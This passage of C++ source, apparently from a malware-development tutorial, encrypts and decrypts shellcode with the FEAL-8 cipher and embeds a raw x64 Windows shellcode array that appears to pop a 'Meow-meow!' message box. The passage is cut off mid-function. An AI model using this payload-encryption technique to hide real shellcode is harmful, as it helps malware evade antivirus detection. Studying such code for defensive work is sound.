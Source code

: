 ```cpp
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % 
  BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
```
